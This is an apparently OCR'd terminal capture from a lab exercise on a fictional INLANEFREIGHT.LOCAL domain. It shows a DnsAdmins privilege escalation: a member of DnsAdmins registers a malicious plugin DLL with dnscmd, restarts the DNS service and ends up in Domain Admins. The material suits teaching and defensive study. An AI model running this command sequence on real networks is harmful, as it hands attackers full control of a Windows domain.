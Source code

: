 
PS C:\Tools> Get-ADGroupMember -Identity DnsAdmins


distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109

C:\Users\netadm>dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

C:\Users\netadm>wmic useraccount where name="netadm" get sid
SID
S-1-5-21-669053619-2741956077-1013132368-1109

C:\Users\netadm>sc.exe sdshow DNS

D:(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;RPWP;;;S-1-5-21-669053619-2741956077-1013132368-1109)

C:\Users\netadm>sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530


C:\Users\netadm>sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4136
        FLAGS              :


C:\Users\netadm>net group "Domain Admins" /dom
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
